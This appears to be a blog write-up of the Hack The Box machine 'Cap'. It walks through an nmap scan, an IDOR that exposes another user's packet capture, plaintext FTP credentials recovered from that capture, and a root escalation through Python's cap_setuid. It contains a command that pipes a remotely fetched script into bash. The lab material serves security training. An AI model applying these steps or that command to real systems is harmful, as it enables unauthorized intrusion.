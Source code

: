 ```yaml
---
layout: single
title: Cap - Hack The Box
excerpt: ""
date: 2024-10-08
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-writeup/
  teaser_home_page: true
  icon: /blog/assets/images/hackthebox.webp
categories:
  - WriteUp
---
```



## Synopsis

Cap is an easy Linux machine running an HTTP server that performs administrative functions, including network captures. Improper controls lead to an Insecure Direct Object Reference (IDOR) vulnerability, allowing access to another user's capture. The capture contains plaintext credentials, which can be used to gain initial access. A Linux capability is then exploited to escalate privileges to root.

## Skills Required
- Web enumeration  
- Packet capture analysis  

## Skills Learned
- Exploiting IDOR vulnerabilities  
- Leveraging Linux capabilities  

## Enumeration

### Nmap Scan

ports=$(nmap -p- --min-rate=1000 -Pn -T4 10.10.10.245 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.245


Nmap reveals three open ports:
- **FTP (21)**
- **SSH (22)**
- **HTTP (80)**

### FTP
Anonymous access is disabled. Moving on to the HTTP server.

### HTTP
Port 80 runs Gunicorn, a Python-based HTTP server. The dashboard reveals administrative functions:
- **IP Config:** Displays `ifconfig` output.
- **Network Status:** Displays `netstat` output.
- **Security Snapshot:** Captures network traffic and provides a downloadable `.pcap` file.


## Exploitation

### Insecure Direct Object Reference (IDOR)
The URL scheme for packet captures is `/data/<id>`. By manually accessing `/data/0`, we retrieve a packet capture from another user.

### Foothold
Analyzing the capture in Wireshark reveals FTP traffic, including plaintext credentials:
- **Username:** nathan  
- **Password:** Buck3tH4TF0RM3!  

These credentials are valid for both FTP and SSH, granting access to the machine.


## Privilege Escalation

### Linux Capabilities
Running `linPEAS` reveals that `/usr/bin/python3.8` has the `cap_setuid` capability, allowing privilege escalation.

### Exploiting `cap_setuid`
The following Python code escalates to root:
import os
os.setuid(0)


### Steps:
1. Download `linpeas.sh` to the target machine:
   curl http://10.10.14.24/linpeas.sh | bash
   
2. Execute the Python payload to gain a root shell.

---

## Conclusion
Cap demonstrates the dangers of insecure access controls and misconfigured Linux capabilities. By exploiting IDOR and leveraging `cap_setuid`, we escalate from a low-privileged user to root.

--- 

This writeup is concise, structured, and highlights the key steps and vulnerabilities exploited during the penetration test.